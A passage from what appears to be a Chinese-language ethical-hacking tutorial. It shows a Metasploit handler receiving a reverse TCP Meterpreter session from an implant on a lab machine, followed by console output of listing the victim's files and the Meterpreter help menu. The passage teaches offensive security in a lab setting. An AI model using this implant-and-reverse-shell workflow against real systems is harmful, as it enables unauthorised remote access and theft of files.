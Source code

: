 `&`选项将在后台运行该进程。

打开运行黑客服务器的 Kali 终端。如果植入物成功连接，你应该看到如下输出：

```
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.107:443

[*] Sending stage (980808 bytes) to 192.168.1.101

[*] Meterpreter session 1 opened (192.168.1.107:443 -> 192.168.1.101:36592)
at 2022-11-10 15:02:15 -0500

meterpreter >
```

恭喜你！你刚刚安装了第一个开源恶意软件植入物。是的，它真的这么简单。现在，让我们使用攻击者代理与植入物进行交互。

#### ***使用攻击者代理***

该代理支持多种命令，允许你与植入物进行交互。例如，你可以使用`ls`命令列出机器上的所有文件。这里，Meterpreter 界面代表黑客代理：

```
meterpreter > ls
Listing: /home/msfadmin

=======================

Mode              Size  Type  Last modified              Name

----              ----  ----  -------------              ----

20666/rw-rw-rw-   0     cha   2021-11-06 09:39:55 -0500  .bash_history

40755/rwxr-xr-x   4096  dir   2010-04-28 16:22:12 -0400  .distcc

40700/rwx------   4096  dir   2021-11-08 06:25:02 -0500  .gconf

                        ...
```

你可以使用`download`和`edit`命令下载或编辑这些文件，且可以通过运行`help`命令列出所有可用命令。

```
meterpreter > help

Core Commands

=============

    Command                   Description

    -------                   -----------

    ?                         Help menu

    background                Backgrounds the current session

    bg                        Alias for background

    bgkill                    Kills a background meterpreter script

                        ...
```
